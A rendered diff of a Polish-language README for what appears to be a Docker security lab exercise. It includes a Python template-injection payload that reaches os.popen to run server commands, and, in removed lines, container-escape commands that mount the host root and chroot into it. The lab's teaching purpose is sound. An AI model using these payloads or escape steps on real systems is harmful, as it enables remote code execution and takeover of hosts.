

Before and after one commit to jd-kowal/Docker-Escape, a Markdown page: README.md, the part around the change printed below. Shown: that part at 86% size. Drawn GitHub-style; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/README.md
+++ b/README.md
@@ -14,73 +15,59 @@ We present security issues in Docker. We show vulnerabilities of this software a
 
 ***
+# Tasks
+***
+<br />
 
-# Tasks
+## *Task 0 - Przygotowanie środowiska*
+Aby rozpocząć wykonywanie zadań sklonujcie repozytorium za pomocą ``git clone`` lub pobierzcie paczkę zip. Będziemy używać Dockera (kontener w kontenerze  z uruchomionym serwerem ubuntu). Całość została skonfigurowana w Dockerfile.
 
+Jeżeli już posiadasz repozytorium na dysku przejdź do katalogu, w którym znajduje się plik z konfiguracją. Następnie wykonaj poniższe komendy: <br />
 
-## Task 0 - Przygotowanie środowiska
-Aby rozpocząć wykonywanie zadań sklonujcie repozytorium. <br />
-Będziemy używać Dockera (kontener w kontenerze). Całość jest przygotowana w docker.file. <br />
-Następnie wykonaj poniższe komendy. <br />
+1. Build - zbuduj kontener (może zająć chwilę w zależności od szybkości łącza):
+	```bash:
+	docker build -t ubuntu-dind .
+	```
+2. Run - uruchom kontener w tle:
+	```bash:
+	docker run -d -p 5000:5000 --privileged --hostname ubuntu-dind --name ubuntu-dind ubuntu-dind
+	```
+3. Enter - wejdź do kontenera:
+	```bash:
+	docker exec -itu adam ubuntu-dind bash
+	```
 
-Build:
-```bash:
-docker build -t ubuntu-dind .
-```
+> ***TIP** - w przypadku problemów -> zrestartuj kontener*
 
-Run:
-```bash:
-docker run -d -p 5000:5000 --privileged --hostname ubuntu-dind --name ubuntu-dind ubuntu-dind
-```
+<br />
 
-Enter:<br />
-```bash:
-docker exec -itu adam ubuntu-dind bash
-```
+## *Task 1 - Dostęp do serwera z perspektywy użytkownika aplikacji webowej*
+W kontenerze uruchomiona jest aplikacja webowa. Znając jej podatność omówioną podczas prezentacji spróbuj, za pomocą preparacji url-a, dokonać araku typu RCE, czyli z widoku interfejsu użytkownika wykonać kod po stronie serwera  (np. podawany podczas prezentacji przykład wyrażenia 7*7).
+<br />
+> Jeżeli w wyniku wcześniejszego przykładu otrzymasz wynik 49
+> to możemy przejść dalej.
 
-**TIP** - w przypadku problemów -> zrestartuj kontener
+ <br />
 
-## Task 1 - Dostęp do serwera z perspektywy użytkownika aplikacji webowej
-Na kontenerze jest uruchomiona aplikacja webowa. Znając jej podatność omówioną podczas prezentacji spróbuj za pomocą preparacji url-a wykonać podstawowy pentesting (np. podawany podczas prezentacji przykład wyrażenia 7*7). <br />
-Następnie jeżeli w wyniku wcześniejszego przykładu otrzymasz wynik 49 to możemy przejść dalej. <br />
-Do następnej czynności będziemy potrzebowali poniższej komendy. <br />
+Teraz przyjrzyj się poniższemu wyrażeniu napisanym w języku Python. Jednak najpierw użyj w konsoli programu ``hack.py``, który jest dołączony do paczki z repozytorium i liczbę, którą znalazłeś wpisz zamiast ``<Liczba_Którą_Znalazłeś>``.
+
+> Jeżeli cię to ciekawi to poniższy kod w sprytny sposób przedostaje się
+> z obiektu napisu przez moduł ``warnings`` i klasę ``WarningMessage``
+> do modułu os, który posiada metody pozwalające na uruchamianie komend systemowych. <br />
+>
+<br />
 
 ```
 "baiim".__class__.__base__.__subclasses__()[<Liczba_Którą_Znalazłeś>].__init__.__globals__['sys'].modules['os'].popen(<Twoja_Komenda>).read()
 ```
+<br />
+Spróbuj wyświetlić strukturę plików w katalogu aplikacji na serwerze.
 
-Najpierw jednak musimy znaleźć **LICZBĘ**. Aby ją odszukać użyj programu ``hack.py`` w konsoli.
+**Odpowiedź** - wyślij zrzut ekranu, który pokaże wylistowane w aplikacji wszystkie pliki i katalogi z  katalogu aplikacji na serwerze razem z użytą komendą.
 
-**Odpowiedź** - wyślij ss, który wylistuje wszystkie pliki i katalogi z aktualnego katalogu (wpisz tą komendę w popen())
+<br />
 
-## Task 2 - Docker Escape & Privilege Escalation
-**TIP** - proponujemy przejście z wykonywaniem zadań do terminala. Otwórz go w katalogu projektu.<br />
-Ucieczkę z kontenera umożliwia nam złe skonfigurowanie kontenera. <br />
+## *Task 2 - Docker Escape & Privilege Escalation*
 
-Spróbuj zmienić użytkownika na root-a (nie powinieneś mieć takiej możliwości - powinieneś być na adamie) {**PE**}:
-```
-su root
-```
-Sprawdź listę dostępnych obrazów:
-```
-docker images
-```
-Pobierz obraz dockera z repozytorium:
-```
-docker pull ubuntu:18.04
-```
-![image](https://github.com/norka02/Docker-Escape/assets/121463460/e5f1fbfc-c4f9-4543-a6b0-f802d55b7039) <br />
-Po pobraniu sprawdź czy obraz pobrał się poprawnie za pomocą:
-```
-docker images
-```
-Poniżej zostały przedstawione dwie przykładowe możliwości stworzenia kontenera z podatnością: <br />
 
-1.
-```
-docker run --rm -it --name kontener-adama --hostname ubuntu-by-adam --privileged ubuntu:18.04 bash
-```
-2.
-```
-docker run -it -v /:/host/ ubuntu:18.04 chroot /host/ bash
-```
+> **TIP** - proponujemy przejście z wykonywaniem zadań do terminala. Otwórz go w katalogu projektu.<br />
 
````
Also changed, not shown: other parts of README.md (+107 -64 lines).
